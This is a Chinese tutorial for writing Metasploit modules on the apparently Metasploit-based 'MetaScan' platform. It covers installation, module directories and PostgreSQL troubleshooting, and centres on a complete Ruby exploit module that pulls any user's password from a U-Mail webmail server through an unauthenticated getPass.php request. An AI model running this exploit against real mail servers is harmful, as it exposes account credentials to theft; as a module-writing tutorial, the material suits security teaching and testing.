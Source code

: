 ﻿快速入门
========

简介
^^^^

MetaScan漏洞验证平台基于metasploit-framework框架而推，基于这个框架，你可以编写出属于你自己的漏洞验证模块，编写模块的相关说明，此文档将做详细的描述，同时我们也会奉上例子供您参考。期待您的加入，让我们一同成为安全牛。

环境配置
^^^^^^^^

**1. 下载程序**

磨刀不误砍柴工，在写模块之前需要搭建好相关环境。如果你是个勤劳的白帽子，我们建议您在*nix系统中完整的安装一次Metasploit，有助于对该框架的多一些了解，不过，熟悉kali的人大都知道系统自身带有现成的环境。Metasploit和Kali Linux的相关下载地址参考如下：

* `Metasploit境内官方下载 <http://www.metasploit.cn/thread-3-1-1.html>`_
* `Metasploit境外官方下载 <http://>`_
* `Kali Linux境内官方下载 <http://>`_
* `Kali Linux境外官方下载 <https://www.kali.org/downloads/>`_

**2. 安装程序**

Metasploit因存在windows和linux两个版本，windows下的安装方式较为常规，此处只介绍在linux系统下的安装方法。

a、添加执行权限

64位::

    chmod +x /path/to/metasploit-latest-linux-x64-installer.run

32位::

    chmod +x /path/to/metasploit-latest-linux-installer.run

b、以root权限运行安装程序

64位::

    sudo /path/to/metasploit-latest-linux-x64-installer.run

32位::

    sudo /path/to/metasploit-latest-linux-installer.run

c、在出现Metasploit的安装窗口之后，均按默认选项执行并单击‘Forward’即可完成安装。
 
.. note::

    编写Metaplosit模块所使用的语言是ruby， Metasploit和Kali Linux在安装完成后均包含了需要的ruby环境，用户可以直接进行相关操作，至于IDE以及Metasploit的两个不同平台的版本选择，此处不做推荐，可以根据自身熟悉情况而定。

**3. 相关目录**

进入Metasploit的目录::

    cd /opt/metasploit/apps/pro/msf3/modules/

.. note::
    该目录存放的主要是漏洞验证相关的模块，用户所写的相关漏洞验证模块均存放在此目录下，感兴趣的白帽子也可以写一些工具性的模块，工具性的模块主要存放在/opt/metasploit/apps/pro/msf3/modules/auxiliary目录中，但类似这些模块均不在此文档中做说明，用户可自行研究。

编写模块
^^^^^^^^

**1. 编写规范**

参考如下:

    https://ruby-china.org/wiki/coding-style

**2. 示例参考**

以乌云上的漏洞来源为例子：http://www.wooyun.org/bugs/wooyun-2010-061894/（用户在写模块时，可自行从网上搜索漏洞）

U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，指定为一个已存在的邮箱账号即可查看任意账户密码。

新建一个新的利用模块umail_pass.rb
::

    cd /opt/metasploit/apps/pro/msf3/modules/exploits
    vi umail_pass.rb

示例代码如下::

    #encoding:utf-8
    require 'msf/core'
    class Metasploit3 < Msf::Exploit::Remote
      Rank = ExcellentRanking
      include Msf::Exploit::Remote::HttpClient
    
      def initialize(info={})
        super(update_info(info,
            'Name'           => "U-Mail System Unauthorized Access Vulnerability",
            'Description'    => %q{
              　　U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，当updata参数的值为s，只需将email参数的值指定为一个已存在的邮箱账号即可查看任意账户密码。
            },
            'License'        => MSF_LICENSE,
            'Author'         =>
              [
              'Rain'    #Metasploit-CNNS
            ],
            'Platform'        => [ 'php' ],
            'Arch'           => ARCH_PHP,
            'Targets'        =>[[ 'U-Mail', { }]],
            'Privileged'     => false,
            'DisclosureDate' => "Apr 11 2011",
            'DefaultTarget'  => 0))
        register_options(
          [
            OptString.new('RHOST', [true, 'The DOMAIN', '']), 
            OptString.new('RPORT', [true, 'The port', '80']),
            OptString.new('TARGETURI', [true, 'The base path to U-Mail', '/webmail/']),
            OptString.new('EMAIL', [true, 'The email to U-Mail', '']),
          ], self.class)
      end
    
      def exploit
        begin
    	    res = send_request_cgi( {
    	        'method' => "GET",
    	        'uri'    => normalize_uri(datastore['TARGETURI']) + "/getPass.php?update=s&email=#{datastore['EMAIL']}"
    	      }, 20)
        rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout
        rescue ::Timeout::Error, ::Errno::EPIPE
        end
          body_data = res.body.force_encoding('UTF-8')
          if body_data =~ /你的密码是/
            data = body_data.scan(/你的密码是\<\/p\>\<p\>\<center\>\<font color=red\>(.*?)\<\/font\>/)
            if data and data.first and data.first.first
              print_good("---------账号--------\n邮箱 = #{datastore['EMAIL']}, 密码 = #{data.first.first}", "good")
            else 
              print_error("漏洞利用失败！")
            end
          else
            print_error("漏洞利用失败！")
          end
      end
    end


常见问题
^^^^^^^^

``问题1``：使用search命令时返回如下内容：

.. image:: image/1.4.1.png

``解决1``：检查数据库的连接
在msf终端中查看postgresql的连接状态
db_status
若显示信息如下图所示，则表示数据库连接异常

.. image:: image/1.4.2.png

查看postgresql数据库服务是否开启
::

    ps -aux | grep -i postgresql 或 service postgresql status

查看postgresql端口情况
::

    netstat -tnpl | grep postgresql 或 netstat -tnpl | grep postgres

若服务和端口均不存在，则需要手动开启其服务
::

    service postgresql start 或 /etc/init.d/postgresql-*.* start	(请根据自身情况选择对应的版本)
	
之后退出msf终端，并再次msfconsole进入查看状态，若仍然未连接，则查看Metasploit的数据库配置文件之后，在msf终端下手动连接

Metasploit默认安装的情况下其数据库配置文件所在位置为::

    /opt/metasploit/apps/pro/ui/config/database.yml
	
手动连接命令为::

    db_connect username:password@127.0.0.1/dbname
